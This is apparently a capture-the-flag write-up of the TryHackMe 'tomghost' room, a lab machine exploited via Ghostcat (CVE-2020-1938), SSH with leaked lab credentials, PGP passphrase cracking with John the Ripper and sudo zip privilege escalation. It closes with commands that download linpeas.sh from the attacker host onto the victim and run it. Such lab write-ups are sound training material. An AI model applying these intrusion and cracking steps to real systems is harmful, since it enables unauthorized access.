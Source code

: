 # ***tomghost***
![alt text](https://i.imgur.com/OyETyLA.png "Tomghost logo")

*Plateform* - [**TryHackMe**](https://tryhackme.com/room/tomghost)

*Rating* - **Easy**

## **Step 1 : SCANNING AND ENUMERATION** 

### *Nmap Output*  

Our nmap scan was the following: `nmap -A -T4 -p- -v -oN tomghost_full 10.10.185.102`

#### *nmap results*

![alt text](https://i.imgur.com/JaQLTK6.png "nmap results")

What seems the most interesting is the combination of **ports 8009 and 8080**.

### *Port 8080 -- Tomcat webserver*

Traveling to http://tomghost.thm:8080/, we notice webserver is running Apache Tomcat/9.0.30. This is an information that will come in handy later to validate our exploit. Furthermore, we notice that the manager app gives us a 403 - Forbidden, indicating this is not the way in.

### *Port 8009 -- Apache Jserv*

If we google `Apache Jserv (Protocol v1.3) exploit`, we will find the **CVE-2020-1938**[https://nvd.nist.gov/vuln/detail/CVE-2020-1938].

>When using the Apache JServ Protocol (AJP), care must be taken when trusting incoming connections to Apache Tomcat. Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited in ways that may be surprising. In Apache Tomcat 9.0.0.M1 to **9.0.0.30**, 8.5.0 to 8.5.50 and 7.0.0 to 7.0.99, Tomcat shipped with an AJP Connector enabled by default that listened on all configured IP addresses. [[Source]](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

From reading this, we learn that our webserver version is most likely vulnerable to this exploit.

After digging a little, we find the exploit-db page for the [*Ghostcat File Read/Inclusion exploit*](https://www.exploit-db.com/exploits/48143) and more information pertaining to GhostCat:

>What is Ghostcat [CVE-2020–1938] vulnerability?
This is an LFI vulnerability in AJP service. An attacker can exploit Ghostcat vulnerability and read the contents of configuration files and source code files of all webapps deployed on Tomcat.
For example, the **/WEB-INF/web.xml** file is the Web Root directory who’s access is restricted and cannot be accessed by anyone over HTTP Tomcat server. [[Source]](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1)

### *Port 22 -- SSH*

While it is nice to know SSH is enabled, this isn't usually a way in.

## *Step 2 : EXPLOITATION*

### *Getting information using GhostCat*

Let's run the ghostcat script found at step 2:

![alt text](https://i.imgur.com/TIEvmi3.png "Script results")

From reading the `web.xml` file, we found potential credentials : `skyfuck:8730281lkjlkjdqlksalks`

### *Exploiting the newly found credentials to find a way in*

Remember that ssh port? Yeah, let's try putting these credentials in.

![alt text](https://i.imgur.com/jPDO4at.png "We are in!")

BINGO! We are in as user *Skyfuck*.

## *Step 3 : POST-EXPLOITATION*

### *Enumerating the Skyfuck user*

![alt text](https://i.imgur.com/Psr2iyT.png "")

Now, there are a few things I want to point out on this screenshot. First off, we are in as a low privileged user, Skyfuck. Regardless of his dubious choice of username, he is very helpful to us and keeps important files on his home directory : `credential.pgp` and `tryhackme.asc`.

While I could waste a bit of time showing you the results of the enumeration for Skyfuck, the real way in is the one described above.

#### Attempt 1 : Reading the credential.pgp file

The `tryhackme.asc` file is a PGP private key and we can assume it is the key to decrypt the `credential.pgp` file.

Let's try!

![alt text](https://i.imgur.com/dG5INEH.png "Can't read!")

Sadly, we need a passphrase and an empty string did not work. No problem, let's work on cracking it!

#### Cracking the tryhackme.asc passphrase

First off, copy the content of the file to your attacker vm. Name this file however you like. I used a very original name for mine: `crackme.asc`.

Next, we'll use JohnTheRipper to crack it.

1. Let's make our file in a format JTR can read: `gpg2john crackme.asc > crackme.hash`

2. Next, we can crack it! I used the `rockyou.txt` wordlist as my dictionary: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme.hash`

Since I've already cracked it before, I won't get anything from the first command, but left it in for the write-up.

![alt text](https://i.imgur.com/nCV6yeE.png "Cracked passphrase!")

There we go! We have the passphrase: `alexandru`

#### Attempt 2 : Reading the credential.pgp file

We can now enter the passphrase and read the `credential.pgp` file.

![alt text](https://i.imgur.com/OamDYkS.png "Merlin credentials")

We find the merlin credentials! `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### *Enumerating the merlin user*

First off, we notice merlin has the `user.txt` flag inside his home directory.

![alt text](https://i.imgur.com/lhulHWp.png "user.txt")

In order to get an idea of how to privesc, I will use the [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script, by carlospolop.

> NOTE: There are a few ways to put the `linpeas.sh` script on the victim machine. I chose the `wget` way. If you are stuck here, I've written a walkthrough at the bottom of the write-up.

Of course, I can't show the whole output as it would be too long, so let's focus on the important bit:

![alt text](https://i.imgur.com/At2Qf0v.png "Privesc way?")

Interesting! We see we can sudo the `zip` binary. Using [GTFOBins](https://gtfobins.github.io/gtfobins/zip/#sudo), we see a find to privesc.

![alt text](https://i.imgur.com/xzirOD4.png "Rooted!")

**PWNED! We rooted the machine and found the root flag!**

## *SUMMARY*

All in all, this was an easy room but full of very nice elements! My main takeaways from this room are the following: ghostcat, pgp encryption (and decryption), and privesc via a sudo'able binary. 

As promised, the walkthrough for the linpeas.sh script.

> Attacker machine

1. Get [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script and put it in a file named `linpeas.sh`
2. Set up a python server: `python -m SimpleHTTPServer 80`

> Victim machine

1. `wget http://*Your-tun0-ip*/linpeas.sh`    # Download the script from your python http server
2. `chmod +x linpeas.sh`                      # Make it executable
3. `./linpeas.sh`                             # Run it!

> End of tutorial :) This is a very useful tool to keep in your back pocket as you will use it over and over again!

# **Thank you for reading this write-up!**
